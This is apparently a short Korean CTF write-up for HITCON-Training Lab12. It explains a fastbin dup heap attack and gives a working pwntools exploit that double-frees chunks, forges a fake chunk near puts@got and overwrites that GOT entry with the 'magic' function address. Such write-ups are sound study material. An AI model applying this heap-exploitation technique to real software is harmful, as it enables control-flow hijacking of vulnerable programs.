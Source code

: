```yaml
---
title: "[HITCON-Training]Lab12"
date: 2020-1-21
ctf: HITCON-Training
layout: post
---
```


fastbin dup문제다.

puts@got의 주소보다 낮은 `0x601ffa` 에 사이즈가 0x60되게 할 수 있는 fake chunk를 만들 수 있다. 그러면 데이터가 쓰여지는 영역은 `0x60200a` 이고 이후 puts@got overwrite해주면 된다. 할당해주는 사이즈는 헤더를 제외한 0x50만큼만 해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./secretgarden')
p = process('./secretgarden')
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)

def add(size,name,color):
	sla(':','1')
	sla(':',str(size))
	sa(':',name)
	sla(':',color)

def visit():
	sla(':','2')

def remove(idx):
	sla(':','3')
	sla(':',str(idx))

def clean():
	sla(':','4')

def leave():
	sla(':','5')

add(0x50,'a','a')
add(0x50,'b','b')
remove(0)
remove(1)
remove(0)
add(0x50,p64(0x601ffa),'c') # fake chunk
add(0x50,'e','e')
add(0x50,'f','f')
add(0x50,'A'*22 + p64(e.symbols['magic']),'B') # puts@got 

p.interactive()
```

